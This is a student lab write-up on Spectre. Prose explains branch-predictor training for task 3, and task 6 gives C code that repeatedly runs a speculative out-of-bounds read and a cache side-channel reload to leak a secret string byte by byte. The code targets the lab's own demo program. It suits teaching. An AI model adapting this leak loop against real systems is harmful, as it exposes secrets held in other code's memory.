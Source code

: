 # Task 3

In task 3 the SpectreExperiment.c program was used to cause an out-of-order execution. The CPU was trained to assume x < size as true so that line 2 (_array[97 * 4096 + DELTA]_) is executed even if the if condition isn't verified. When the script was executed this proved to be true since the key array was present in the cache.
Consequently, the line marked with a star (_\_mm\_clflush(&size);_) was commented. This line flushes variable _size_ from memory and causes the cpu to take longer in the retrieval of its value. This caused the attack to not succeed, the value was not flushed so the cpu could retrieve _size_ and didn't have the need to assume its value as larger than x.
astly, line 4 (_victim(i);_) was replace with _victim(i + 20)_. This time the CPU wasn't trained to assume the if condition (_if (x < size)_) as true. This causes line 2 (_temp = array[x * 4096 + DELTA]_) to not be executed and the array to not be stored in cache.

# Task 6

To reveal the secret value, the following code was used to print all the characters of the secret string to the file _secret.txt_. 

```
int main() {
    FILE *fp;
    fp = fopen("secret.txt", "w+");
    int i;
    uint8_t s;
    size_t index_beyond = (size_t)(secret - (char*)buffer);
    for(int m = 0; m < strlen(secret); m++) {
	flushSideChannel();
        for(i=0;i<256; i++) scores[i]=0;
	for (i = 0; i < 1000; i++) {
	    printf("*****\n");
	    spectreAttack(index_beyond + m);
	    usleep(10);
	    reloadSideChannelImproved();
	}
        int max = 1;
	for (i = 1; i < 256; i++){
	    if(scores[max] < scores[i]) max = i;
	}
	//fprintf(fp, "Reading secret value at index %ld\n", index_beyond);
	fprintf(fp, "%c", max, max);
	//fprintf(fp, "The number of hits is %d\n", scores[max]);
    }
    fprintf(fp, "\n");
    return 0;
}
```

The result was printed to a file because of the need to include line _printf("*****\n")_ which floods the output but it's necessary in order for the attack to succeed.

The file _secret.txt_:
```
Some Secret Value
```
